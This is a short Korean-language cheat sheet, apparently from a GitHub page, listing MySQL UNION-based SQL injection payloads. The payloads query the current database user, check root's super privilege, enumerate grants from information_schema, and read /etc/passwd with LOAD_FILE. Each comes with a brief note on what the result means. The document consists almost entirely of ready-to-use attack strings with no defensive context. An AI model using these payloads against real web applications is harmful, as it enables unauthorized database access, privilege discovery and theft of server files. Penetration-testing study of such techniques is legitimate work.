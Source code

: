 # 현재 DB 사용자 조회

```
' UNION SELECT NULL, user(), NULL, NULL-- -
' UNION SELECT NULL, user, NULL, NULL from mysql.user-- -
```

설명: 현재 사용자가 루트로 조회된다면, 관리자(DBA) 권한이 있다는 뜻이다. 그리고 DBA가 있으면 파일 읽기 권한이 있을 확률이 훨씬 더 높다.

# 사용자 권한 조회

```
' UNION SELECT NULL, super_priv, NULL, NULL FROM mysql.user WHERE user="root"-- -
```

설명1: 현재 사용자가 root@localhost 일 때를 기준으로 작성 됨<br>
설명2: 만약에 Y가 반환된다면, 슈퍼 유저라는 의미

# 현재 사용자의 모든 권한 조회

```
' UNION SELECT NULL, grantee, privilege_type, NULL FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

설명1: 현재 사용자가 root@localhost 일 때를 기준으로 작성 됨<br>
설명2: 만약에 FILE이 출력된다면, 파일을 읽을 수 있고 잠재적으로 파일을 쓸 수도 있음을 의미

# 파일 읽기

```
' UNION SELECT NULL, LOAD_FILE("/etc/passwd"), NULL, NULL-- -
```

설명: 현재 페이지 파일을 로딩하면 Ctrl+U로 HTML 소스 확인하기
